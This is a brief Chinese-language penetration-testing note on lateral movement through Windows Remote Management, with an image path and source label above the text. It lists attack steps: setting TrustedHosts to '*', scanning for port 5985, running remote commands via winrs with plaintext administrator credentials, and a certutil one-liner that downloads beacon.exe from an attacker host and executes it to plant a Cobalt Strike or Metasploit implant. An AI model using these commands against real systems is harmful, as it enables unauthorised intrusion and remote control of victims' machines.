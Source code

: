 WinRM 代表 Windows 远程管理，是一种允许管理员远程执行系统管理任务的服务。
WinRS 连接命令。
默认情况下支持 Kerberos 和 NTLM 身份验证以及基本身份验证。

移动条件：双方都启用的 WinRM RS 的服务，5985端口，知道账号密码。
使用此服务需要管理员级别凭据。
Windows 2008 以上版本默认自动状态，Windows Vista/win7 上必须手动启动；
Windows 2012 之后的版本默认允许远程任意主机来管理。

## **利用**
攻击机开启：
winrm quickconfig -q
winrm set winrm/config/Client @{TrustedHosts="*"}

1.探针可用：
cs 内置端口扫描 5985
powershell Get-WmiObject -Class win32_service | Where-Object 
{$_.name -like "WinRM"}

2.连接执行：
```
winrs -r:192.168.3.32 -u:192.168.3.32\administrator -p:admin!@#45 命令

winrs -r:192.168.3.21 -u:192.168.3.21\administrator -p:Admin12345 whoami
```
3.上线 CS&MSF:
```
winrs -r:192.168.3.32 -u:192.168.3.32\administrator -p:admin!@#45 
"cmd.exe /c certutil -urlcache -split -f 
http://192.168.3.31/beacon.exe beacon.exe & beacon.exe"
```
4.CS 目标列表-横向移动-winsm